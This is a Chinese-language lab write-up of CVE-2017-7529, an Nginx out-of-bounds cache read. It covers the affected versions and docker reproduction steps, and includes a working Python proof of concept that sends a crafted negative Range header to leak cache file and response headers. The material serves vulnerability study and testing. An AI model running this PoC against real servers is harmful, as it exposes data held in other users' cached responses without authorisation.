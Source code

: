 （CVE-2017-7529）Nginx 越界读取缓存漏洞
=======================================

一、漏洞简介
------------

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括"文件头"+"HTTP返回包头"+"HTTP返回包体"。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的"HTTP返回包体"返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600,
-9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

二、漏洞影响
------------

-   Nginx Nginx:1.13.2
-   Nginx Nginx:1.13.1
-   Nginx Nginx:1.13.0
-   Nginx Nginx:1.11.13
-   Nginx Nginx:1.11.12

三、复现过程
------------

运行测试环境：

    docker-compose up -d

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![](./.resource/(CVE-2017-7529)Nginx越界读取缓存漏洞/media/rId24.png)

可见，越界读取到了位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

    #!/usr/bin/env python
    import sys
    import requests

    if len(sys.argv) < 2:
        print("%s url" % (sys.argv[0]))
        print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
        sys.exit()

    headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
    }
    offset = 605
    url = sys.argv[1]
    file_len = len(requests.get(url, headers=headers).content)
    n = file_len + offset
    headers['Range'] = "bytes=-%d,-%d" % (
        n, 0x8000000000000000 - n)

    r = requests.get(url, headers=headers)
    print(r.text)

参考链接
--------

> https://vulhub.org/\#/environments/nginx/CVE-2017-7529/

